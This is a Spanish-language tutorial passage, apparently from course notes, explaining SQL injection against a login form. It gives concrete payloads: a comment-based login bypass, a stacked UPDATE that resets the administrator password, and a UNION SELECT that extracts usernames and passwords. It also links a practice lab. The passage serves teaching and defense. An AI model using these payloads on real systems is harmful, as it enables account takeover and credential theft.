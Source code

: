 Ahora consideramos una aplicación con un formulario de logeo típico

![image-20210409181954772](/Ciberseguridad-PePS/assets/img/injection/image-20210409181954772.png)

Cuando un usuario introduce `Víctor` y password `hola`  se genera la siguiente consulta:

```sql
SELECT * FROM users WHERE
username = 'Víctor' AND
password = 'hola'
```

En este escenario, un atacante puede entrar como cualquier otro usuario cuyo nombre conozca simplemente haciendo que la password esté comentada;

Por ejemplo, si introduce `administrator'--` entonces la aplicación genera la siguiente consulta

```sql
SELECT * FROM users WHERE
username = 'administrator' -- AND
password = ''
```

>  **LAB 2 ** [Vulnerabilidad de inyección SQL que permite eludir el inicio de sesión](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

### Inyección SQL de segundo orden

Además, podemos lanzar más de una sentencia. Por ejemplo:

```sql
SELECT * FROM users WHERE
username = 'administrator'; UPDATE users SET password='letmein' where user = 'administrator'-- AND
password = ''
```

### Obtener datos de otras tablas

Se puede obtener mediante una consulta UNION que añada una nueva setencia sql del tipo `SELECT * FROM table`

Si por ejemplo la aplicación tiene una consulta del tipo

```sqlite
SELECT name, description
FROM products WHERE
category = 'Gifts' 
```

El atacante puede hacerle un ataque de UNION

```sql
SELECT name, description
FROM products WHERE
category = 'Gifts' UNION 
SELECT username, password
FROM users--
```
